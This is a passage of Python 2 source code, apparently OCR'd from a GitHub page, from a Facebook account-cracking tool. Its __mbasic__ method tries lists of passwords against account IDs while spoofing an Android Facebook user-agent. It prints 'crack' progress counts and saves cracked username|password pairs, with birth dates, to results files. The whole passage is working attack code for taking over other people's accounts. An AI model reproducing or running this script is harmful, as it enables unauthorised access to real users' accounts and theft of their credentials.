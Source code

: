                     month = bulan_ttl[month]

                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)

                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)

                    cp.append(wrt)

                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                    break

                except (KeyError, IOError):

                    month = ''

                    day   = ''

                    year  = ''

                except:

                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)

                wrt = ' [×] %s|%s' % (user,pw)

                cp.append(wrt)

                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            else:

                continue

        loop += 1

    def __mbasic__(self, user, __yan__):

        global ok,cp,loop

        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),

        sys.stdout.flush()

        for pw in __yan__:

            pw = pw.lower()

            try: os.mkdir('results')

            except: pass

            try:

             _kontol = open('YNTKTS.txt', 'r').read()

            except (KeyError, IOError):

             _kontol = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
